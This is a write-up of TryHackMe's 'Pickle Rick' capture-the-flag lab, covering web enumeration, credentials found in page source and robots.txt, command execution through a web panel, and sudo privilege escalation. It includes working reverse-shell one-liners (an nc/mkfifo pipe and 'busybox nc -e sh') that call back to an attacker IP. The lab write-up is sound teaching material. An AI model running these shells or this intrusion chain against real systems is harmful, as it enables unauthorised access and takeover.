





# Write-Up: Pickle Rick

This write-up will walk you through the thought process behind solving the challenge and the decisions made along the way.

## Basic Information

- CTF: [TryHackMe](https://tryhackme.com/room/picklerick)
- Difficulty: Easy

## Description

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: IP

## Approach

### Enumeration

In the description a web server is mentioned, where we can find the ingredients. We enumerate the given IP address to check, if such a server exists. For easier use of the IP during the challenge, we can add it to the `/etc/hosts` file with an alias. We edit the file and append:

```bash
10.112.153.199 picklerick.thm
```

Now, we can start a `nmap` scan, which checks for versions and tests basic scripts.

```bash
nmap -sC -sV picklerick.thm
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-14 17:09 -0400
Nmap scan report for picklerick.thm (10.114.191.5)
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find the web server and an open SSH port. We find a Rick and Morty-themed website, but nothing interesting is directly apparent. It gives another hint, that we have to log in to Rick's computer to find the ingredients.



### Web Enumeration

But we don't have login credentials. So we have to search for them. Let's inspect the website further. Taking a look at the source code, we find an HTML comment containing a username: `R1ckRul3s`.



Since no more information can be found with manual enumeration, we start a dirsearch scan with common word list.

```bash
└─$ dirsearch -u picklerick.thm -w /usr/share/wordlists/dirb/common.txt             
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 4613

Target: http://picklerick.thm/

[17:42:20] Starting: 
[17:42:21] 301 -  317B  - /assets  ->  http://picklerick.thm/assets/        
[17:42:28] 200 -   17B  - /robots.txt                                       
[17:42:28] 403 -  279B  - /server-status  
```
The `assets` directory stores the pictures and code of the website. Everything seems normal here, and we do not dig deeper at this point.



The `robots.txt` endpoint looks interesting. Normally it holds paths which are not allowed to be searched by robots aka web scrapers or similar. But here, it holds Rick's nonsense, which could be a password: `Wubbalubbadubdub`. There is no hidden message in the source of this website, just the shown plain text.

Now we have potential credentials to use: `R1ckRul3s`:`Wubbalubbadubdub`

### Further Enumeration

They don't work when logging into SSH, so we have to further analyse the website. We are stuck here, since we have no other entry points. We can try to enumerate the website further, this time with a different tool and word list. The objective is to find some kind of login form, where we can use the found credentials. 

We now give the tool `gobuster` a try. It also searches for paths on a web server, based on a given word list. We define `php` and `txt` as extensions, because we search for some kind of login logic which could be built in `php` and already have found a text file.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u picklerick.thm -x php,txt
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://picklerick.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
login.php            (Status: 200) [Size: 882]
assets               (Status: 301) [Size: 317] [--> http://picklerick.thm/assets/]
portal.php           (Status: 302) [Size: 0] [--> /login.php]
robots.txt           (Status: 200) [Size: 17]
Progress: 262986 / 262986 (100.00%)
===============================================================
Finished
```

We find two new endpoints! The output shows, that `portal.php` redirects to `login.php` which presents a login form.


### Initial Access

Entering the found credentials `R1ckRul3s`:`Wubbalubbadubdub` works and we find a page with a command panel. Entering commands prints their output to the screen.



We find the first ingredient! Let's see, what it is.



But it is not that easy. Maybe only certain commands are disabled. We can try another tool `tac`, which lists the content of a file backwards. This time it works and we find the first ingredient!

```text
tac Sup3rS3cretPickl3Ingred.txt
<first redacted ingredient>
```

The clue says, we should have a look at the rest of the file system.

```text
tac clue.txt
Look around the file system for the other ingredient.
```

### Reverse Shell

But for further enumeration on the server, it is tedious to use the command panel. To use our own terminal, we have to get a reverse shell. For this, set up a local listener with `nc -lvnp 1337` and spawn a reverse shell to the web server using the command panel.

Our first try with the following shell does not work. It is again forbidden by the hidden command policy.

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.170.203 1337 >/tmp/f
```

We can use [revshells](https://www.revshells.com/) to try out more reverse shells. Some do not spawn a shell and some get us the error message. But finally one using `busybox` works.

```bash
busybox nc 192.168.170.203 1337 -e sh
```

Now, we can stabilise our shell with the following steps to work with it more easily.
- Wait for incoming shell
- Spawn interactive shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- Move reverse shell to background with `CTRL + Z`
- Fix terminal behaviour to correctly pass inputs and avoid duplicate output with `stty raw -echo; fg` and bring back background reverse shell
- Set TERM correctly `export TERM=xterm`

```bash
nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.170.203] from (UNKNOWN) [10.112.153.199] 43132
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-112-153-199:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 1337

stty raw -echo; fg
[1]  + continued  nc -lvnp 1337
                               export TERM=xterm
www-data@ip-10-112-153-199:/var/www/html$ ls
Sup3rS3cretPickl3Ingred.txt  clue.txt    index.html  portal.php
assets                       denied.php  login.php   robots.txt
www-data@ip-10-112-153-199:/var/www/html$
```

### Post Exploitation

Within the terminal, we can start digging for the next ingredient. Since the first one was stored in a text file, we can search for all other text files that we can read and maybe find it with:

```bash
find / -type f -name "*.txt" -readable 2>/dev/null
```

But we have no luck with this approach. Next, we can search for other users under `/home` and find `rick` and `ubuntu`. The latter has nothing stored in their folder. But in the folder of `rick`, we find the second ingredient!

```bash
www-data@ip-10-112-153-199:/home/rick$ ls
'second ingredients'
www-data@ip-10-112-153-199:/home/rick$ cat ./second\ ingredients 
<second redacted ingredient>
```

As we have no further clues, the third one is maybe hidden in the root directory. To get there, we check our root privileges.

```bash
www-data@ip-10-112-153-199:/home/rick$ sudo -l
Matching Defaults entries for www-data on ip-10-112-153-199:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-112-153-199:
    (ALL) NOPASSWD: ALL
```

We can execute everything with root privileges. With root privileges, we find the third flag at `/root/3rd.txt`!

```bash
www-data@ip-10-112-153-199:/home/rick$ sudo ls /root
3rd.txt  snap
www-data@ip-10-112-153-199:/home/rick$ sudo cat /root/3rd.txt
3rd ingredients: <redacted>
```

## Takeaway

This challenge demonstrates how simple web enumeration techniques can reveal hidden credentials and functionality. By combining source code analysis, directory brute-forcing, and command injection, we can gain initial access. From there, leveraging reverse shells and proper enumeration leads to privilege escalation, especially when overly permissive `sudo` configurations are present.

